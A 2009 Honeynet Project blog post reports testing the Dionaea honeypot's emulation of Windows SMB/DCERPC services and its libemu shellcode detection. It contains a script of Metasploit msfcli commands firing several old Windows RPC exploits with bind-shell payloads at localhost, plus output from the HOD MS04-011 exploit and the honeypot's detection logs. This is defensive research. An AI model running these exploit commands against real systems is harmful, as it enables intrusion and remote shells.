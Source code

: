 ```yaml
---
title: "Iteolih: RPC vulnerability implementation party"
authors: ["Mark Schloesser"]
date: "2009-08-25"
tags: 
  - "iteolih-samba-dcerpc-python-libemu"
---
```


The [Dionaea](http://dionaea.carnivore.it/ "dionaea homepage") honeypot got more and more mature during the last weeks. As Markus blogged in [Iteolih: Miles and More](https://www.honeynet.org/node/485 "Markus' blog") the software is now able to detect shellcode via libemu and generates a nice shellcode profile out of this.

  
  

The SMB / DCERPC implementation also got fairly mature and is now able to cope with all packet types and also most caveats and differences of implementations in exploits. As I registered more and more RPC vulnerabilities in the module, it was definitely time to give libemu something to eat! :)

  
  
  
  

So I just launched some metasploit modules against the honeypot...

  
  
`#!/bin/sh  
./msfcli exploit/windows/smb/ms06_040_netapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwapi PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms06_066_nwwks PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=windows/shell/bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms05_017_msmq PAYLOAD=generic/shell_bind_tcp HNAME=dionaea RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms07_065_msmq PAYLOAD=generic/shell_bind_tcp DNAME=www.google.de RPORT=135 RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/smb/ms05_039_pnp PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
./msfcli exploit/windows/dcerpc/ms03_026_dcom PAYLOAD=generic/shell_bind_tcp RHOST=127.0.0.1 T=0 E  
`  
  

... and watched dionaea spit out the info (cut for better blog experience):

  
  
`[25082009 18:06:00] emu : shellcode found offset 135  
[25082009 18:06:00] RPCVULN : got the DCERPC request for NetPathCanonicalize. MS08-067 exploit?  
[25082009 18:06:18] RPCVULN : got the DCERPC request for NwOpenEnumNdsSubTrees. MS06-066 exploit?  
[25082009 18:06:25] RPCVULN : got the DCERPC request for NwChangePassword. MS06-066 exploit?  
[25082009 18:06:45] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:06:45] emu : shellcode found offset 988  
[25082009 18:07:01] RPCVULN : got the DCERPC request for QMDeleteObject. MS05-017 exploit?  
[25082009 18:07:01] emu : shellcode found offset 776  
[25082009 18:07:01] emukind : bindshell host 0.0.0.0 port 4444  
[25082009 18:07:08] RPCVULN : got the DCERPC request for QMCreateObjectInternal. MS07-065 exploit?  
[25082009 18:07:18] RPCVULN : got the DCERPC request for PNP_QueryResConfList. MS05-039 exploit?  
[25082009 18:07:38] RPCVULN : got the DCERPC request for RemoteActivation. MS03-026 exploit?  
[25082009 18:07:38] emu : shellcode found offset 1080  
[25082009 18:07:38] emukind : bindshell host 0.0.0.0 port 4444  
`  
  

Also the infamous HOD exploit triggers libemu nicely:

  
  
`$ ./hod 0 127.0.0.1 445 127.0.0.1  
  
MS04011 Lsasrv.dll RPC buffer overflow remote exploit v0.1  
--- Coded by .::[ houseofdabus ]::. --- 
doing connectback  
[*] Target: IP: 127.0.0.1: OS: WinXP Professional [universal] lsass.exe  
[*] Connecting to 127.0.0.1:445 ... OK  
[*] Attacking ... OK`  
  
`[25082009 18:08:09] emu : shellcode found offset 302  
[25082009 18:08:09] RPCVULN : got the DCERPC request for DsRolerUpgradeDownlevelServer. MS04-011 exploit?  
[25082009 18:08:09] emukind : connectbackshell host 127.0.0.1 port 445  
`  
  

With some exploits libemu does not give a correct shellcode profile or does not detect a shellcode - this will mostly be the case because of unicode encoding or some other custom encapsulation in the rpc packets. We will add some heuristics later which can preprocess the data to improve libemu's detection.

  
  

The honeypot also already supports shell emulation and ftp/http/tftp downloads of malware - but this was turned off for the above tests.

  
  

Feel free to checkout the honeypot's code and try it for yourself. We need testing and feedback! As documentation is rather small, feel free to ask questions in the nepenthes IRC channel.

  
  

Mark
